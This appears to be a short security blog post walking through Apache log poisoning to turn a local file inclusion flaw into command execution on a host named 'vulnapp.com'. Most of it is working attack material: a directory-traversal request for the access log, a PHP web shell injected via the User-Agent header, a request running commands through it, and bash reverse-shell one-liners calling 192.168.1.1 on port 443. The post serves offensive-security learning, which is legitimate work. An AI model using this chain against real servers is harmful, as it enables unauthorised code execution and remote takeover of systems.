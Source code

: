```yaml
---
layout: post
title: Local File Inclusion - Apache User Agent Exploit
titledate: 08/29/23
tags: ["infosec","offsec", "web", "lfi", "shell", "exploit"]
---
```


<h4>Apache Web Server Log Poisoning</h4>

In this example, it is possible to inject a script via the HTTP User-Agent header into the Apache web server access log.

    GET /meteor/index.php?page=admin.php HTTP/1.1
    Host: vulnapp.com
    User-Agent: test here
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Connection: close

If we send an HTTP GET request via curl or burp to the server we can see the result of the User-Agent get logged 

    $ curl http://vulnapp.com/index.php?page=../../../../../../../../../var/log/apache2/access.log 

Using burp again or curl with the -A or --user-agent parameter we can try any string to verify that our agent is indeed showing up in the logs

With this vulnerability we can include some php to run system and let us execute commands by replacing the User-Agent with the following

    $ <?php echo system($_GET['cmd']); ?>

Now when we make a request to the access log and pass it the new argument cmd that we injected with our php script we should run the command via php's system

    GET /vulnapp/index.php?page=../../../../../../../../../var/log/apache2/access.log&cmd=ls HTTP/1.1
    Host: vulnapp.com
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Connection: close

    <h3>NOTE: we removed the User-Agent header to keep from overwriting our injected script</h3>

Finally we can use the following bash 1-liner to attempt to establish a reverse tcp shell connection

    $ bash -i >& /dev/tcp/192.168.1.1/443 0>&1

The above command may fail if the command runs via sh and not bash, in which case

    $ bash -c "bash -i >& /dev/tcp/192.168.1.1/443 0>&1"

And of course we need to % [encode](https://www.urlencoder.org) our url

![_config.yml]({{ site.baseurl }}/images/web/lfi_shell.png)

burp seems to be much quicker and easier to work with for these types of attacks
